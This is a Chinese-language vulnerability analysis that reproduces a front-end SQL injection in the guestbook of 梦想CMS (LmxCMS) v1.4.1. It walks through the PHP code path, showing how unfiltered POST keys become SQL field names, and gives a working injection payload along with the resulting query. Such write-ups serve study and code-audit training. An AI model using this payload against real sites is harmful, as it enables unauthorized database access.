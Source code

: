 # 梦想CMS 前台SQL注入

- [梦想CMS 前台SQL注入](#梦想cms-前台sql注入)
  - [漏洞要求](#漏洞要求)
  - [漏洞分析](#漏洞分析)
  - [漏洞测试](#漏洞测试)
  - [小结](#小结)
  - [相关链接](#相关链接)

v1.4.1版本的源码放在当前目录下，防止后面的漏洞找不到源代码

## 漏洞要求

- 版本：v1.4.1

## 漏洞分析

这篇文章是根据 <https://xz.aliyun.com/t/11224> 这个师傅的文章进行的漏洞复现，所以直接看漏洞点，这个前台的SQL注入点还是挺有意思的，在学习完SQl注入之后，可以通过这个漏洞点进行很好的学习。

漏洞点在前台的留言版，看到这个地方，刚学习漏洞的可能更容易想到的是`xss`, 不过这里的是一个SQL注入
根据抓包知道保存留言时请求的url是`/index.php?m=Book&a=setBook`，该请求对应的代码文件为 `c/index/BookAction.class.php` 的如下部分：

```php
public function index(){
      if(isset($_POST['setbook'])){//提交留言
          $data = $this->checkData();
          if($this->bookModel->add($data)){
              $this->setBookTime(); //存储提交时间
              rewrite::succ($this->l['book_ok']);
          }else{
              rewrite::error($this->l['book_error']);
          }
      }
      //判断是否调用留言数据
      if($GLOBALS['public']['isbookdata']){
              //判断是否只调用审核
              $where = '';
              if($GLOBALS['public']['bookDisplay']) $where = 'ischeck=1';
              $count = $this->bookModel->count($where);
              $page = new page($count,$GLOBALS['public']['booknum']);
              $data = $this->bookModel->getData($page->returnLimit(),$where);
              $this->smarty->assign('list',$data);
              $this->smarty->assign('num',$count);
              $this->smarty->assign('page',$page->html());
      }
      $this->smarty->display('book/index.html');
  }
```

在代码中`$data = $this->checkData();` 调用 `checkData()` 对请求的数据进行检查处理，过滤xss,sql 注入，以及对提交的间隔做限制，接着是调用 `$this->bookModel->add($data)` 进行数据的存储入库。

继续看代码调用到 `m/BookModel.class.php` 如下代码：

```php
//前台增加留言
public function add($data){
    $data['time'] = time();
    return parent::addModel($data);
}
```

以及代码文件 `class/Model.class.php` 的如下代码：

```php
//增加数据并返回id
protected function addModel($data){
    return parent::addDB($this->tab[0],$data);
}
```

最终调用到代码文件  `class/db.class.php` 的如下部分：

```php
//增加
protected function addDB($tab,$data){
    foreach($data as $key=>$v){
        $field[]=$key;
        $value[]="'$v'";
    }
    $field = implode(',',$field);
    $value = implode(",",$value);
    $sql="INSERT INTO ".DB_PRE."$tab($field) VALUES($value)";
    $this->query($sql);
    return mysql_insert_id();
}
```

而漏洞的问题也处在最后的这个 `addDB` 方法上，这里的SQL 拼接是传入的数组data循环，所有的数据库字段追加到 `$field` 数组中，所有的 插入的值追加到 `$value` 数组中，两者都通过 `implode` 方法将数组转换
以逗号分隔的字符串，并最终拼接到 `$sql` 变量中。 `$field[]=$key;` 对于 字段名的拼接并没有做任何处理，所以我们可以在这个地方进行注入。

## 漏洞测试

我们在保存的浏览的请求数据中，将数据内容改为如下：
`name=%E5%95%8A%E5%95%8A%E5%95%8A&mail=aa%40qq.com&tel=121111&content=2323&setbook=%E6%8F%90%E4%BA%A4&time,ischeck)VALUES(user(),1,1,1,1,1,1);#=1`

其实就是在你抓住的数据包的后面添加 `&time,ischeck)VALUES(user(),1,1,1,1,1,1);#=1`内容将原本拼接到后面的SQL给注释掉了，我们调试打印 `$sql="INSERT INTO ".DB_PRE."$tab($field) VALUES($value)";` 可以看到如下内容：

`INSERT INTO lmx_book(name,content,mail,tel,ip,time,ischeck)VALUES(user(),1,1,1,1,1,1);#,time) VALUES('啊啊啊','2323','aa@qq.com','121111','192.168.80.1','1','1657690699')`

在留言板上看你的留言即可以在用户名那里看到的数据库用户名

## 小结

这个代码作为SQL注入学习以及代码审计的入门都是一个不错的小练习。

## 相关链接

- <https://xz.aliyun.com/t/11224>
- <http://www.lmxcms.com/down/xitong/20210530/14.html>
